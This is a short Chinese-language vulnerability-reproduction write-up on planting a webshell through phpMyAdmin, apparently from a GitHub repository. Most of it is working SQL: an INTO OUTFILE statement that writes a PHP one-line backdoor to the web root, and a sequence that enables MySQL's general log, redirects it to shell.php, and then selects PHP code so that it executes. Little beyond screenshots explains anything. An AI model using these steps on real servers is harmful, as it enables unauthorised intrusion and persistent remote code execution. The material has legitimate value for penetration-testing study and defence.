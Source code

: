 # 漏洞复现——phpMyAdmin拿shell

## mysql低于5.0直接通过outfile写入shell

1. 若网站的mysql版本小于5.0，则直接通过outfile写入shell到网站的绝对路径下

   ``` SQL
   SELECT "<?php @assert($_REQUEST["admin"]);?>" INTO OUTFILE  '/网站绝对路径/shell.php'
   ```

2. 高版本mysql，利用secure防护利用日志记录保存后门。

   - 查询secure_file_priv（secure-file-priv是全局变量，指定文件夹作为导出文件存放的地方，这个值是只读的）是否为null

   ``` sql
   show variables like '%secure%'
   ```

   ![secure_file_priv](img/0.png)

   - 查询日志保存状态(ON代表开启 OFF代表关闭)和日志的保存路径

     ``` sql
     show variables like '%general%'
     ```

     ![查询日志保存状态](img/1.png)

   - 若general_log为OFF，则修改这个值，开启日志保存

     ``` sql
     set global general_log='on';
     ```

   - 修改日志保存的路径(general_log_file值)

     ``` sql
     SET global general_log_file='<网站绝对路径>/shell.php'
     ```

     ![写入shell](img/2.png)

   - 查询是否成功更改

     ``` sql
     show variables like '%general%'
     ```

     ![shell1](img/4.png)

     成功写入文件

     ![shell](img/3.png)

   - 执行SQL语句写入一句话木马，这里写入phpinfo

     ``` sql
     SELECT '<?php phpinfo();?>';
     ```

     ![后门写入](img/5.png)

     成功写入phpinfo并解析执行成功

     ![phpinfo](img/6.png)